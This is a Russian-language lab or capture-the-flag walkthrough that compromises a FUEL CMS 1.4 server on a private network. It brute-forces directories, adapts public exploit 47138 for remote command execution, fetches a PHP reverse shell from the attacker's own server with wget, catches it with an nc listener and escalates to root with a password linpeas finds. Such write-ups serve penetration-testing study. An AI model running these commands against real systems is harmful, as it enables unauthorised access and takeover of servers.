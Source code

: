 #Прохождение
1. Запускаем перебор директорий с помощью ffuf:
``ffuf -u http://192.168.81.130/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt``
В результате перебора обнаруживаем дирректорию /home:
![alt text](./img/ffuf.png)
2. Перейдя по адрессу http://192.168.81.130/home обнаруживаем, что используетя FUEL CMS версии 1.4:
![alt text](./img/fuel.png)
3. Ищем уязвимости данной CMS с помощью утилиты searchsploit:
``searchsploit Fuel CMS``
И получаем следующий результат:
![alt text](./img/searchsploit.png)
4. Копируем скрипт с эксплойтом с помощью команды:
``searchsploit -m 47138``
И получаем следующий скрипт
![alt text](./img/before.png)
5. Меняем его следующим образом:
- В переменную url записываем адресс сайта
- Меняем функцию raw_input на input
- Меняем urllib.quote(xxxx) на urllib.parse.quote(xxxx)
- Удаляем переменную proxy и параметр proxies=proxy
- Добавляем скобки у print
![alt text](./img/after.png)
6. Выполняем скрипт
``python 47138.py``
И получаем параметр cmd с помощью которого мы можем выполнять параметры операционной системы. Проверим это введя комманду id:
![alt text](./img/cmd.png)
7. Подготовим файл reverse.php от pentestmonkey https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php.
И заменим в нем следующие поля:
- Ip - устанавливаем наш ip адресс
- Port - устанавливаем 4444
![alt text](./img/reverse.png)
8. Запускаем на хостовой машине простой http-сервер используя python:
``python -m http.server 80``
9. Загружаем reverse shell на машину, используя rce уязвимость:
``wget http://192.168.81.128/reverse.php``
10. Прослушиваем 4444 порт:
``nc -lnvp 4444``
11. Открываем reverse shell в браузере по адрессу: http://192.168.81.130/reverse.php
12. Получаем shell:
![alt text](./img/shell.png)
13. Спавним оболочку с помощью python и получаем доступ к пользователю www-data:
``python -c 'import pty; pty.spawn("/bin/bash")'``
14. Загружаем скрипт <a href="https://github.com/carlospolop/PEASS-ng/releases/tag/20230724-3e05f4c7">linpeas.sh</a>, аналогично reverse.php
``wget http://192.168.81.128/linpeas.sh``
15. Переходим в дирректорию /var/www/html
16. Добавляем правда на выполнению скрипту linpeas.sh и вызываем его
``chmod +x linpeas.sh``
``./linpeas.sh``
17. Скрипт обнаруживает пароль в файле /var/www/html/fuel/application/config/database.php
![alt text](./img/password.png)
18. Пробуем его для доступа к root и получаем доступ:
![alt text](./img/root.png)